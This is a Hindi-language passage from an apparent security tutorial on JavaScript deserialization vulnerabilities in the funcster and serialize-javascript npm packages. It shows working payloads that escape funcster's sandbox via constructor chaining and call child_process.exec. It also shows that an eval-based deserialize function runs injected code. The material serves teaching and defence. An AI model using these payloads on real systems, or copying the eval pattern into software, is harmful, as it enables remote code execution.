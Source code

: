 ### [funcster](https://www.npmjs.com/package/funcster)

**funcster** का एक महत्वपूर्ण पहलू यह है कि **मानक इनबिल्ट-इन ऑब्जेक्ट्स** तक पहुंचना असंभव है; वे पहुंचने योग्य दायरे के बाहर हैं। यह प्रतिबंध उस कोड के निष्पादन को रोकता है जो मानक इनबिल्ट-इन ऑब्जेक्ट्स पर विधियों को आमंत्रित करने का प्रयास करता है, जिससे उदाहरण के रूप में अपवाद उत्पन्न होते हैं जैसे `"ReferenceError: console is not defined"` जब `console.log()` या `require(something)` जैसे कमांड का उपयोग किया जाता है।

इस प्रतिबंध के बावजूद, वैश्विक संदर्भ तक पूर्ण पहुंच को पुनर्स्थापित करना संभव है, जिसमें सभी मानक इनबिल्ट-इन ऑब्जेक्ट्स शामिल हैं। इस प्रतिबंध को छलकरने के लिए विशिष्ट दृष्टिकोण का उपयोग करके यह संभव है। उदाहरण के रूप में, निम्नलिखित स्निपेट का उपयोग करके पहुंच पुनः स्थापित किया जा सकता है:
```javascript
funcster = require("funcster");
//Serialization
var test = funcster.serialize(function() { return "Hello world!" })
console.log(test) // { __js_function: 'function(){return"Hello world!"}' }

//Deserialization with auto-execution
var desertest1 = { __js_function: 'function(){return "Hello world!"}()' }
funcster.deepDeserialize(desertest1)
var desertest2 = { __js_function: 'this.constructor.constructor("console.log(1111)")()' }
funcster.deepDeserialize(desertest2)
var desertest3 = { __js_function: 'this.constructor.constructor("require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });")()' }
funcster.deepDeserialize(desertest3)
```
**अधिक जानकारी के लिए इस स्रोत को पढ़ें**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**

### [**serialize-javascript**](https://www.npmjs.com/package/serialize-javascript)

**serialize-javascript** पैकेज को केवल सिरियलाइज़ेशन के उद्देश्यों के लिए डिज़ाइन किया गया है, जिसमें कोई भी अंतर्निहित डीसीरियलाइज़ेशन क्षमताएँ नहीं हैं। उपयोगकर्ताओं को अपनी डीसीरियलाइज़ेशन के लिए अपनी खुद की विधि को लागू करने के लिए जिम्मेदार होते हैं। सीरियलाइज़ किए गए डेटा को डीसीरियलाइज़ करने के लिए आधिकारिक उदाहरण द्वारा `eval` का सीधा उपयोग सुझाया गया है:
```javascript
function deserialize(serializedJavascript){
return eval('(' + serializedJavascript + ')');
}
```
यदि इस फ़ंक्शन का उपयोग ऑब्जेक्ट्स को डीसीरियलाइज करने के लिए किया जाता है, तो आप **इसे आसानी से एक्सप्लॉइट** कर सकते हैं:
```javascript
var serialize = require('serialize-javascript');
//Serialization
var test = serialize(function() { return "Hello world!" });
console.log(test) //function() { return "Hello world!" }

//Deserialization
var test = "function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"
deserialize(test)
```
**अधिक जानकारी के लिए इस स्रोत को पढ़ें**](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/)**.**

